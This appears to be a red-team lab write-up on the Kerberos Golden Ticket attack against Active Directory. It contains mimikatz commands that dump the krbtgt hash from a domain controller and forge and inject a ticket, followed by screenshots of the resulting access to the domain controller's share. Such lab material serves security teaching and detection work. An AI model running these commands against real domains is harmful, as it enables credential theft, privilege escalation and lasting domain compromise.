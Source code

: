 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% code title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking if the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

## References

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" caption="" %}

{% embed url="https://adsecurity.org/?p=1515" caption="" %}

